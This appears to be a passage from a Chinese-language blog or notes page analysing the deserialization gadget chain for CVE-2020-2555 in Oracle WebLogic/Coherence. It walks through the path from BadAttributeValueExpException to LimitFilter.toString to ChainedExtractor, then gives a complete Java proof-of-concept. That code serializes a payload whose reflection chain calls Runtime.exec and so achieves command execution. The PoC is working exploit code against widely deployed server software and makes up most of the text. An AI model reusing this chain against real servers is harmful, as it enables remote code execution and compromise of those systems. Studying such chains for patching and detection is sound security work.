 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318161146002.png)



readExternal到readObject，并没有调用extract，需要找个中间商

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318162012988.png)

在com.tangosol.util.extractor.ChainedExtractor#extract链式调用了参数对象的extract

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318162351777.png)

ChainedExtractor本身也无法调用extract

`com.tangosol.util.filter.LimitFilter#toString()`对extract()进行了调用

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318162738723.png)

其中m_oAnchotTop可以用setter设置属性值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318162930092.png)

又回到刚开始，BadAttributeValueExpException反序列化会调用指定对象的toString()。就构成了链

poc:

```java
public class CVE_2020_2555 {
    public static void main(String[] args) throws Exception {

        ReflectionExtractor[] reflectionExtractors = new ReflectionExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{"null", new Class[0]}),
                new ReflectionExtractor("exec", new Object[]{new String[]{"cmd", "/c", "calc"}})
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(reflectionExtractors);
        LimitFilter limitFilter = new LimitFilter();

        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, limitFilter);

        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("weblogic_2020_2551.ser"));
            os.writeObject(badAttributeValueExpException);
            os.close();
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("weblogic_2020_2551.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}

```